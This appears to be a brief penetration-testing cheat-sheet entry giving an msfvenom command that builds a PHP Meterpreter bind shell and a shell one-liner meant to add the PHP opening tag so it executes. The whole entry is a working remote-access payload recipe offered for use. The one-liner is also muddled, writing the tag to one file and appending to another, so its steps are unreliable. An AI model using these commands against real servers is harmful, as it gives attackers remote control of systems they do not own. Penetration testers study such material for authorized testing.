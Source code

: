 # PHP

- PHP meterpreter bind callback shell

`$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw > met.php`

- After generating the PHP meterpreter bind callback shell include the tags to ensure execution.

```
$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php
```